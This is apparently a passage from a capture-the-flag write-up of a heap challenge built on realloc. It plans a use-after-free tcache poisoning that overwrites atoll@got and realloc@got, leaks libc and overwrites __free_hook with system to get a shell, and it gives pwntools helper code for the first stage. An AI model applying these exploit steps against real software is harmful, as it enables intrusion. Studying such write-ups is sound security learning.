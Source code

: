 After that, how about overwriting both `atoll@got` and `realloc@got` because we want is after overwriting `atoll@got`, we just want to leak libc and set everything back to its own address, don't need to `realloc` any more chunk. Therefore, overwriting `atoll@got` with `puts@plt` and `realloc@got` with an instruction `ret` will keep the pointer remain on rax, which is the result of `realloc` as usual.

Then leak address and set all the address back and also remove all address in `heap`. Finally, we will overwrite `__free_hook` with `system` and get shell.

Summary:
- Stage 1: Overwrite `atoll@got` and `realloc@got`
- Stage 2: Leak libc address & set everything back
- Stage 3: Overwrite `__free_hook` with system

# 3. Exploit

Before we start our exploitation, I wrote some function corresponding to options for convenience:

```python
def alloc(idx, size, data):
	p.sendlineafter(b'choice: ', b'1')
	p.sendlineafter(b'Index:', str(idx).encode())
	p.sendlineafter(b'Size:', str(size).encode())
	p.sendafter(b'Data:', data)

def realloc(idx, size, data=''):
	p.sendlineafter(b'choice: ', b'2')
	p.sendlineafter(b'Index:', str(idx).encode())
	p.sendlineafter(b'Size:', str(size).encode())
	if size!=0:
		p.sendafter(b'Data:', data)

def free(idx):
	p.sendlineafter(b'choice: ', b'3')
	p.sendlineafter(b'Index:', str(idx).encode())
```

### Stage 1: Overwrite `atoll@got` and `realloc@got`

First, let's allocate 2 chunk and free 1 chunk as we usually do when attack tcache:

```python
alloc(0, 0x18, b'0'*8)
alloc(1, 0x18, b'1'*8)    # Use After Free for this chunk
free(0)
```

Next, we will use option 2 `realloc` to free chunk index 1 and **Use After Free** to overwrite forward pointer with `atoll@got`:

```python
realloc(1, 0)    # free chunk
realloc(1, 0x18, p64(exe.got['atoll']))
```
